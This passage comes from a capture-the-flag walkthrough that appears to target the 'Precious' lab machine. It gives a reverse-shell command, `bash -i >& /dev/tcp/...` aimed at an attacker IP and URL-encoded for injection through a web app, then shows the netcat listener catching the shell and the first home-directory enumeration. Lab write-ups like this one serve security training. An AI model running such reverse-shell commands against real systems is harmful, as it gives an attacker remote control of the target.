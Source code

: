 ![](/assets/img/precious/8.png)

> **Note:** The normal command would be `bash -i >& /dev/tcp/10.10.14.39/443 0>&1`, but because this is being executed by a web, we need to `urlencode` it.

Now, check your `netcat` listener and you should get a `reverse shell`:

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.39] from (UNKNOWN) [10.10.11.189] 45366
bash: cannot set terminal process group (659): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ 
```

## Shell - Henry

- - -

This step is **very** easy, the only thing we need to do is to enumerate a little bit the machine. 
If we run `ls -la` we can see an interesting directory, `.bundle`:

```bash
ruby@precious:~$ ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 May 19 12:53 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 May 19 12:53 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ 
```
